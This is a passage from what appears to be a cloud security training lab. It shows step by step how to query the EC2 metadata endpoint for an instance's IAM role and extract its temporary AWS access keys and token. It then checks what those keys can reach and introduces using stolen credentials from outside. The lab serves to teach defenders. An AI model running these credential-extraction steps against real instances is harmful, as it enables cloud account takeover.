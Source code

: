### 1.2 Role Discovery

**Extract Role Information**:
```bash
# Discover attached IAM role
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

**Expected Output**:
```
A4L-InstanceRole-[RANDOM_STRING]
```

**📝 Lab Question 1**: What is the full name of the IAM role attached to this instance?

### 1.3 Credential Extraction

**Extract Temporary Credentials**:
```bash
# Replace [ROLE_NAME] with actual role name from previous step
ROLE_NAME="A4L-InstanceRole-[RANDOM_STRING]"
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME
```

**Expected Output Structure**:
```json
{
  "Code": "Success",
  "LastUpdated": "2025-07-22T01:15:24Z", 
  "Type": "AWS-HMAC",
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "...",
  "Token": "...",
  "Expiration": "2025-07-22T07:50:38Z"
}
```

**📝 Lab Question 2**: How many hours of validity do these credentials have remaining?

### 1.4 On-Instance Testing

**Test AWS Access**:
```bash
# List S3 buckets
aws s3 ls

# Describe EC2 instances  
aws ec2 describe-instances --region us-east-1 --output table
```

**📝 Lab Question 3**: What AWS resources can you access with these credentials?

## 🌐 Lab Exercise 2: External Attack Execution

### Objective
Demonstrate how stolen credentials can be used from external systems, simulating real-world attack scenarios.
